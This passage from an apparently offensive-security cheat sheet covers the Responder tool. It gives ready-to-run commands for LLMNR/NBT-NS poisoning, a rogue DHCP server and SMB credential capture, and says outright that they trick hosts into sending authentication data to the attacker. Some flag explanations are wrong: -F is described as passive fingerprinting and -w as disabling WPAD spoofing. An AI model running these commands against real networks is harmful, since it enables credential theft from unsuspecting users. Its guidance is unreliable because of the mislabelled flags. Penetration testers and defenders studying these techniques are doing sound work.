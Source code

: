 #### **10. Running Responder in Fingerprint Mode**
- **Description:** Use Responder to perform a fingerprint scan of the network.
- **Command:**
  ```bash
  sudo responder -I <interface> -F
  ```
- **Example:**
  ```bash
  sudo responder -I eth0 -F
  ```
- **Explanation:**
  - The `-F` flag runs Responder in fingerprint mode, gathering information about hosts on the network without spoofing or responding to requests.

#### **11. Poisoning LLMNR/NBT-NS Requests**
- **Description:** Use Responder to poison Link-Local Multicast Name Resolution (LLMNR) and NetBIOS Name Service (NBT-NS) requests.
- **Command:**
  ```bash
  sudo responder -I <interface>
  ```
- **Explanation:**
  - Responder is often used to poison LLMNR and NBT-NS requests, tricking systems into sending authentication data to the attacker.

#### **12. Disabling WPAD Spoofing**
- **Description:** Disable WPAD (Web Proxy Auto-Discovery Protocol) spoofing in Responder.
- **Command:**
  ```bash
  sudo responder -I <interface> -w
  ```
- **Explanation:**
  - The `-w` flag disables WPAD spoofing, which may be useful in environments where WPAD is not being exploited.

#### **13. Running Responder in Rogue DHCP Mode**
- **Description:** Start Responder with a rogue DHCP server to provide malicious IP configurations.
- **Command:**
  ```bash
  sudo responder -I <interface> --dhcp
  ```
- **Example:**
  ```bash
  sudo responder -I eth0 --dhcp
  ```
- **Explanation:**
  - The `--dhcp` option enables a rogue DHCP server within Responder, which can be used to assign IP addresses and other network settings to clients, potentially directing them to malicious servers.

#### **14. Analyze SMB Traffic**
- **Description:** Analyze SMB traffic specifically to capture credentials.
- **Command:**
  ```bash
  sudo responder -I <interface> -s
  ```
- **Example:**
  ```bash
  sudo responder -I eth0 -s
  ```
- **Explanation:**
  - The `-s` flag focuses Responder's efforts on SMB traffic, where it can capture credentials sent over this protocol.
